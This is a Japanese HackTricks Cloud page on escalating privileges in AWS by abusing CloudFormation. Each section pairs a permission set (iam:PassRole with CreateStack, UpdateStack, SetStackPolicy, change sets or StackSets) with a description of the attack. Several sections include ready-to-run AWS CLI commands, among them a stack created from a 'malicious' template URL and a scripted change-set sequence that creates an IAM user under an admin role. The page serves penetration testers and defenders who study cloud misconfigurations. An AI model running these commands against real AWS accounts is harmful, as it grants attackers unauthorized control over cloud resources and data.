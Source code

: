 # AWS - Cloudformation Privesc

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## cloudformation

cloudformationについての詳細は以下をチェックしてください:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole` と `cloudformation:CreateStack` の権限を持つ攻撃者は、特定のロールの権限の下でアクションを実行するカスタムテンプレートを持つ** **CloudFormationスタック**を自分のサーバー上で作成することで、権限を昇格させる可能性があります。これにより、許可されていないリソースの作成やアクセス権の昇格につながる可能性があります。

**コマンド例：**
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
以下のページでは、追加の権限 **`cloudformation:DescribeStacks`** を持つ**悪用例**を示しています：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響：** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、既存のcloudformationスタックを**悪用して更新し**、前のシナリオと同様に権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが **`iam:PassRole` がない場合**でも、使用中のスタックを**更新し**、既に添付されている **IAM ロールを悪用**することができます。悪用の例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**ロールを渡す権限と ChangeSet を作成 & 実行する権限**を持つ攻撃者は、CreateStack や UpdateStack と同様に、**新しい cloudformation スタックを作成/更新し cloudformation サービスロールを悪用**することができます。

以下の悪用は、スタックを作成するための **ChangeSet 権限を使用した**[ **CreateStack の**](./#iam-passrole-cloudformation-createstack) **変種です。**
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して **自分自身に `ChangeSet` 権限を与える** ために使用でき、攻撃を実行することができます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール** を渡すことなく、既にアタッチされているものを **悪用する** だけです。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的な影響:** 既にアタッチされているcloudformationサービスロールへのPrivesc。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のcloudformationロールを悪用するためにStackSetsを作成/更新する可能性があります。

**潜在的な影響:** cloudformationサービスロールへのPrivesc。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用して、アタッチされたcloudformationロールを悪用するためにStackSetsを更新する可能性があります。

**潜在的な影響:** アタッチされたcloudformationロールへのPrivesc。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
